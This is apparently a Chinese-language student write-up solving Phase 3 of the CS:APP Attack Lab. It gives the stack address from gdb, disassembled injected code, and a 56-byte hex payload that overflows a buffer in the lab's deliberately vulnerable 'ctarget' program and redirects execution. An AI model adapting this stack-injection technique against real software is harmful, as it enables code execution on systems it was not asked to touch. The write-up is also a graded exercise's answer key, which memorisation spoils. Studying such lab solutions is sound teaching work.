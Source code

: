- 使用test的栈进行cookie字符串的存储；将字符串存放的地址写入`%rdi`
- 其余与Phase2相同

![](C:\Github_io\source\img\csapp\attack_phase3.png)

- 此时test的栈帧

  > ~~~bash
  > (gdb) p $rsp
  > $2 = (void *) 0x5561dca8
  > ~~~

- 生成的字节码文件

  > ~~~assembly
  > phase3ass.o:     file format elf64-x86-64
  > 
  > 
  > Disassembly of section .text:
  > 
  > 0000000000000000 <.text>:
  >    0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
  >    7:	68 fa 18 40 00       	pushq  $0x4018fa
  >    c:	c3                   	retq   
  > ~~~

- **我们的cookie`0x59b997fa`作为字符串转换为`ASCII`为：`35 39 62 39 39 37 66 61`**

- 注入的二进制数据十六进制表示

  > 由于在`test`栈帧中多利用了一个字节存放cookie，所以本题要**输入56个字节**。注入代码的字节表示放在开头，33-40个字节放置注入代码的地址用来覆盖返回地址，最后八个字节存放cookie的`ASCII` 。

~~~
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
~~~

#### 结果

~~~
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw < phase3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
~~~

